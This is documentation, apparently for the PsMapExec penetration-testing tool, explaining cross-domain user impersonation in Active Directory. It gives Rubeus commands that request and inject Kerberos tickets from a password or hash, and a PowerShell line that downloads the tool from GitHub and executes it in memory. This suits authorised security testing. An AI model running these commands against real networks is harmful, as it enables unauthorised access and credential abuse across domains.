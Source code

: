 # Cross Domain Usage

PsMapExec has the ability to impersonate users on one domain to access resources on a different domain.&#x20;

When accessing resources across domain and impersonating a user we need two parameters:

* UserDomain: The domain of the user we are impersonating
* Domain: The target domain where we intended to access resources

{% code overflow="wrap" %}
```powershell
PsMapExec -Targets All -Domain child.security.local -UserDomain security.local -username Moe -Password Password -method [Method] -Command [Command]
```
{% endcode %}

In the command example shown above we are getting all computers in the domain child.security.local and impersonating the user Moe whose account resides in the security.local domain.&#x20;

As security.local is a parent to the child domain child.security.local there is a trust between them and the user moe can access resources in the child domain.

### CurrentUser

Alternatively Rubeus or Runas.exe can be used to create a new logon session for a user in an alternative domain and the `-CurrentUser` switch can be applied to work in the current logon session context.

Simply put, Runas.exe is the most straightforward way of acheiving this if you have a password for the user you wish to impersonate. Otherwise, Rubeus will need to be used if you need to use a Hash or a Kerberos ticket.

Create Logon session

<pre class="language-powershell"><code class="lang-powershell"># Runas.exe
Runas.exe /user:[Domain]\[User] Powershell.exe
<strong>
</strong><strong># Rubeus
</strong>Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /show

# AskTGT and inject in new session
Rubeus.exe asktgt /user:[User] /domain:[Domain] /hash:[Hash] or /password:[Password] /ptt

# Invoke-Rubeus
Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show"

# AskTGT and inject in new session
Invoke-Rubeus -Command "asktgt /user:[User] /domain:[Domain] /hash:[Hash] or /password:[Password] /ptt"
</code></pre>

Then load PsMapExec into the new logon session and run with `-CurrentUser`.

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")# Execute
PsMapExec -CurrentUser -Targets All -Domain [Domain] -Method [Method] -Command [Command] 
```
